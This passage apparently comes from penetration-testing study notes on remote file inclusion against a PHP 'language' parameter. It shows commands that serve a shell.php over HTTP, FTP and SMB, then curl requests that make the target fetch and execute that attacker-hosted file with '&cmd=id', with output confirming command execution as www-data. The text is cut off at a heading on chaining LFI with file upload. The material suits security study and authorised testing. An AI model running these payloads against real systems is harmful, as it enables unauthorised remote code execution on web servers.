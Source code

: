```bash
$ sudo python3 -m http.server <LISTENING_PORT>
=> Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```


```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### FTP 

```bash
$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```


```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### SMP  `do not need the allow_url_include`

```bash
impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Note** : this technique is **more likely to work if we were on the same network**, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.


### Chain LFI & File Upload
